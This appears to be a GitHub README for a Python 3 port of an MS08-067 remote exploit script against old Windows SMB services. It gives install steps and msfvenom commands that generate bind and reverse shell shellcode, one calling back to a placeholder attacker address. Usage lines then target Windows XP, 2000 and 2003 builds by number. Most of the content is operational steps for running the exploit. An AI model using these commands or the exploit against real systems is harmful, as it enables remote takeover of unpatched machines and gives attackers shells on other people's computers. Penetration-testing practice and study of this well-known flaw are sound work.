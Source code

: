 # MS08-067 Python exploit script updated for Python 3

This is an updated version of a MS08-067 Python exploit script to make it compatible with Python 3. 

It is based on Andy Acer's code.
Cloned and edited from this repository:  
https://github.com/andyacer/ms08_067

## Installation on Kali

`git clone https://github.com/Nerkho/MS08-067`

## Dependencies

You will need to install Impacket and Pycrypto

```
pip install impacket
pip install pycrypto
```


## Generating Shellcode

Example msfvenom commands to generate shellcode.  Just paste these into the file which you'll edit after downloading.

```
msfvenom -p windows/shell_bind_tcp RHOST=192.168.1.1 LPORT=443 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows

msfvenom -p windows/shell_reverse_tcp LHOST=1.3.3.7 LPORT=443 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows

msfvenom -p windows/shell_reverse_tcp LHOST=1.3.3.7 LPORT=62000 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows
```
## Usage

Usage: 
```
python3 ms08_067_python3.py <target ip> <os #> <Port #>
```

* ms08_067_2018.py 192.168.1.1 1 445 -- for Windows XP SP0/SP1 Universal, port 445
* ms08_067_2018.py 192.168.1.1 2 139 -- for Windows 2000 Universal, port 139 (445 could also be used)
* ms08_067_2018.py 192.168.1.1 3 445 -- for Windows 2003 SP0 Universal
* ms08_067_2018.py 192.168.1.1 4 445 -- for Windows 2003 SP1 English
* ms08_067_2018.py 192.168.1.1 5 445 -- for Windows XP SP3 French (NX)
* ms08_067_2018.py 192.168.1.1 6 445 -- for Windows XP SP3 English (NX)
* ms08_067_2018.py 192.168.1.1 7 445 -- for Windows XP SP3 English (AlwaysOn NX)
